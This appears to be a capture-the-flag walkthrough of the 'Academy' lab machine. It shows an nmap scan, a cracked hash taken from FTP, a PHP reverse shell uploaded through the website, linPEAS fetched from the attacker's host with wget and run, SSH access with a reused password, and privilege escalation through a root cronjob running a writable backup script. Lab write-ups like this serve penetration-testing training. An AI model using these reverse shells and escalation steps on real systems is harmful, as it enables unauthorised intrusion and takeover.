

Academy
The first step is to scan the host with nmap:
nmap -p- -T4 -A {ip.address}

Looks like we have three ports open: 21, 22, and 80. I’m assuming we’re going to need to target either 21 or 80.
For port 21 looks like it’s running vsftpd 3.0.3. We also see a note.txt 😀, which is a lead.
For port 80 it looks like we’re running Apache 2.4.38.
Let’s go ahead and open up the website on port 80 using burp.

Just a default page. We might need to fuzz it late but for now let’s move on to the FTP


Looks like we were able to successfully obtain a user login and hash. Let’s use the service crackstation to obtain the password in cleartext.

CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.
Based on the note we can infe that the website is possibly located at http://10.0.2.4/academy/.
Nice! Let’s log in: Looks like we have a few options. Let’s try uploading a reverse php shell instead of an /Academy/image file because the site doesn’t seem to be sanitizing inputs.

https://github.com/pentestmonkey/php-reverse-shell

We just need to make a few changes to the script and then setup our listener on our machine.

nc -nvlp 1234

Now it’s time to upload the shell to the website.

And we’re in!
Let’s now try running linPEASon the machine to see if there are any known vulnerabilities or misconfigurations.
PEASS-ng/linPEAS at master · peass-ng/PEASS-ng
To do that we just need to setup a python web server on our machine and then reach out and grab the file from the victim’s computer using the www account that we were able to access earlier.
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
python3 -m http.server 80
$ cd /tmp
$ pwd
/tmp
$ wget http://10.0.2.15/linpeas.sh
--2025-07-12 17:51:41-- http://10.0.2.15/linpeas.sh
Connecting to 10.0.2.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [text/x-sh]
Saving to: 'linpeas.sh'
0K .......... .......... .......... .......... .......... 5% 11.6M 0s
50K .......... .......... .......... .......... .......... 10% 60.9M 0s
100K .......... .......... .......... .......... .......... 16% 15.3M 0s
150K .......... .......... .......... .......... .......... 21% 79.6M 0s
200K .......... .......... .......... .......... .......... 26% 119M 0s
250K .......... .......... .......... .......... .......... 32% 79.9M 0s
300K .......... .......... .......... .......... .......... 37% 50.3M 0s
350K .......... .......... .......... .......... .......... 42% 27.4M 0s
400K .......... .......... .......... .......... .......... 48% 18.0M 0s
450K .......... .......... .......... .......... .......... 53% 38.3M 0s
500K .......... .......... .......... .......... .......... 58% 39.9M 0s
550K .......... .......... .......... .......... .......... 64% 48.7M 0s
600K .......... .......... .......... .......... .......... 69% 61.0M 0s
650K .......... .......... .......... .......... .......... 74% 646M 0s
700K .......... .......... .......... .......... .......... 80% 245M 0s
750K .......... .......... .......... .......... .......... 85% 593M 0s
800K .......... .......... .......... .......... .......... 91% 574M 0s
850K .......... .......... .......... .......... .......... 96% 690M 0s
900K .......... .......... .......... ... 100% 679M=0.02s
2025-07-12 17:51:41 (45.2 MB/s) - 'linpeas.sh' saved [956174/956174]
$ ls
linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
Looks like we were able to identify a login and password.


Let’s test and see if that password woks for ssh login
it woks!

Ok, so now we have a authenticted foothold in the box. Let’s see what we are able to do and or access now that we have a SSH session as the user grimmie.
First let’s run sudo -l
grimmie@academy:~$ sudo -l
-bash: sudo: command not found
We get the error sudo not found. So it’s disabled for this user as well.
Looks like the only item in the home folder is a backup.sh
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh
#!/bin/bash
rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
Do we have edit access to this file?
Yes, we do. Let’s check if maybe this program is running as root
running
ps aux
doesn’t really show us anything interesting
Let’s try something else:
There’s a program called pspythat’s designed to catch short lived processes and cronjobs and display the to us.
Let’s go ahead and run it on the box.
2025/07/15 12:51:01 CMD: UID=0 PID=1085 | /bin/sh -c /home/grimmie/backup.sh
And we found it! Looks like there’s a cronjob that does run this program.
We might be able to exploit this with a reverse shell. Let’s see.
Let’s try the version from pnetest monkey.
Yay it worked!